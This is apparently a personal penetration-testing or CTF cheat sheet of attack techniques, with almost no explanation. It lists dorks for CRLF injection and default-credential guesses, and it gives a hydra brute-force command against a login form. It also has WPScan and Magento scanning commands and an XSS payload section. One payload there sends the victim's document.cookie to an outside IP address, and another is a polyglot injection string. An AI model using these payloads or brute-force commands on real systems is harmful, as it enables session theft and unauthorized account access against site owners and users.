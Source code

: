 ## Hidden GET/POST parameters in hidden forms

## CRLF

```
site inurl:locale=
site inurl:lang=
```
because language parameter are reflected in cookies , \r\n might get crlf

## Password brute forcing

```
try:
admin/admin , admin/"" , admin/password , root/root , root/"" , root/password , admin/sitesNames

if username is knows : 
	username/username ,  username/emanresu(reverse) , username/username123

and

WEB

hydra -s 10000 -e nsr -l admin -P ~/Desktop/ctf/____tools____/seclist/Passwords/Common-Credentials/10k-most-common.txt 10.10.10.120 http-post-form/http-get-form "/session_login.cgi:user=^USER^&pass=^PASS^:failed"

here -s is port/ optional

```


## CMS

### Wp-Scan

```
docker run -it --rm wpscanteam/wpscan --url https://target.tld/ -e vt,tt,u,ap
```

### Magento

run `php ~/Desktop/ctf/____tools____/cms/magento/magescan.phar scan:all site.com/index.php/`

just exploit-db for magento, there are 10-11 exploits there, try em all.




# Xss Payload

```

<svg onload='z="http://52.26.23.151:9999/?x="+document.cookie;z1=new XMLHttpRequest();z1.open("get",z);z1.send() '>

site.com/#<XSS>

<svgonload=alert(1)>



jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

```